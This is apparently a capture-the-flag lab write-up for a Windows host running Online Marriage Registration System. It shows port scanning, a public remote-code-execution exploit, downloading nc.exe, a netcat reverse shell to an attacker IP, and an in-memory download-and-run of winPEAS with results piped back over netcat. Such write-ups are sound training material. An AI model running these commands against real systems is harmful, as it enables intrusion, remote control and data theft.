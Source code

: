 # Reconnaissances
## Port Scanning
`$ proxychains nmap -sT -sV -Pn -T5 172.16.1.102`
```
```bash
Nmap scan report for 172.16.1.102
Host is up (0.20s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Apache httpd 2.4.54 ((Win64) OpenSSL/1.1.1p PHP/7.4.0)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  open  ssl/http      Apache httpd 2.4.54 ((Win64) OpenSSL/1.1.1p PHP/7.4.0)
445/tcp  open  microsoft-ds?
3306/tcp open  mysql         MySQL (unauthorized)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 242.09 seconds
```

### Observe the HTTP
```
$ proxychains firefox 172.16.1.102
```
```
Marriage Registration System
```

Try to search exploit for `Marriage Registration System`
```
$ searchsploit "Marriage Registration System"
------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                            |  Path
------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Online Marriage Registration System (OMRS) 1.0 - Remote Code Execution (2)                                                                | php/webapps/49260.py
Online Marriage Registration System (OMRS) 1.0 - Remote code execution (3)                                                                | php/webapps/49557.py
Online Marriage Registration System 1.0 - 'searchdata' SQL Injection                                                                      | php/webapps/49307.txt
Online Marriage Registration System 1.0 - Persistent Cross-Site Scripting                                                                 | php/webapps/48522.txt
Online Marriage Registration System 1.0 - Remote Code Execution (1)                                                                       | php/webapps/48552.sh
------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

How to use the exploit
```
$ cp /usr/share/exploitdb/exploits/php/webapps/49557.py .
$ cat 49557.py  
```
```bash
# Exploit Title: Online Marriage Registration System (OMRS) 1.0 - Remote code execution (3)
# Date: 10/02/2021
# Exploit Author: Ricardo Ruiz (@ricardojoserf)
# Vendor Homepage: https://phpgurukul.com/
# Software Link: https://phpgurukul.com/online-marriage-registration-system-using-php-and-mysql/
# Version: 1.0
# Tested on: Windows 10/Xampp Server and Wamp Server
# Porting an existing exploit (https://www.exploit-db.com/exploits/49260, for macOs) to Linux/Windows. Adding the possibility of automatic registration and execution of any command without needing to upload any local file
# Example with registration:    python3 script.py -u http://172.16.1.102:80/ -c 'whoami'
# Example without registration: python3 script.py -u http://172.16.1.102:80/ -c 'whoami' -m 680123456 -p dante123

```

# Pre-Exploitation
```
$ proxychains firefox http://172.16.1.102/user/signup.php
```

# Exploitation
```
$ proxychains python3 49557.py -u http://172.16.1.102/ -c 'whoami' -m 680123456 -p dante123
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.1.102:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.1.102:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.1.102:80  ...  OK
[+] PHP shell uploaded
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.1.102:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.1.102:80  ...  OK
[+] Command output
dante-ws03\blake
```

Upload `nc.exe` via http
```
$ python3 -m http.server 80
```
```
$ proxychains python3 49557.py -u http://172.16.1.102/ -c "powershell wget 10.10.14.14/nc.exe -o nc.exe" -m 680123456 -p dante123
```

Get reverse shell
```
$ nc -lvnp 9001
$ proxychains python3 49557.py -u http://172.16.1.102/ -c "nc.exe -e cmd.exe 10.10.14.14 9001" -m 680123456 -p dante123
```
```
connect to [10.10.14.2] from (UNKNOWN) [10.10.110.3] 32725
Microsoft Windows [Version 10.0.19042.1766]
(c) Microsoft Corporation. All rights reserved.

C:\Apache24\htdocs\user\images>type c:\users\blake\Desktop\flag.txt
type c:\users\blake\Desktop\flag.txt
DANTE{U_M4y_Kiss_Th3_Br1d3}
```

# Leteral Movement
**Try to run winpeas**
```
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.14/winPEAS.ps1')" > winpeas.log

nc.exe 10.10.14.14 9004 < c:\users\blake\Downloads\winpeas.log
```
